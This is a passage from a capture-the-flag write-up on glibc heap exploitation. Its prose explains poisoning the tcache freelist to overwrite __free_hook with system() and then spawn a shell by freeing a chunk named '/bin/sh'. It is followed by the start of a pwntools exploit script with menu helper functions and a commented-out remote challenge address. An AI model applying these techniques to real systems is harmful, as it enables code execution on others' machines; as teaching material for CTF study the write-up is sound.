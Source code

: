 We write both name and description to the chunk because we are also tcache poisoning the freelist for the person chunks themselves (0x30), so we need a place to write to that won't segfault.

You may notice that the fastbin got moved to the tcache. This is normal as glibc does this when the tcache for a size is empty and there are chunks in the corresponding fastbin.

Now, our tcache bin for 0x60 looks like `7 -> 9 -> <__free_hook>`.

Simply create three more people with desc size 0x60. On the last person, you will be writing to `__free_hook`, so write `system()` to it.

Then, we can go and delete something with `/bin/sh` in it. Recall that we chose to name house 1 as `/bin/sh`, so we can just go and delete house1, spawning a shell.

Script:

```python
from pwn import *

e = ELF("./chall")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = e
context.terminal = ["konsole", "-e"]

p = process([ld.path, e.path], env={"LD_PRELOAD": libc.path})
#p = remote("35.245.143.0", 5555)

#context.log_level="debug"
gdb.attach(p, """c""")


def create_house(name, size, desc):
	print("create")
	p.sendlineafter(">> ", "1")
	p.sendlineafter(": ", name)
	p.sendlineafter(": ", str(size))
	p.sendlineafter(": ", desc)


def create_person(name, size, desc):
	print("create")
	p.sendlineafter(">> ", "2")
	p.sendlineafter(": ", name)
	p.sendlineafter(": ", str(size))
	p.sendlineafter(": ", desc)


def add(idx, house):
	print("add")
	p.sendlineafter(">> ", "3")
	p.sendlineafter(": ", str(idx))
	p.sendlineafter(": ", str(house))


def remove(house, idx):
	print("remove")
	p.sendlineafter(">> ", "4")
	p.sendlineafter(": ", str(house))
	p.sendlineafter(": ", str(idx))


def view_house(idx):
	print("view house")
	p.sendlineafter(">> ", "5")
```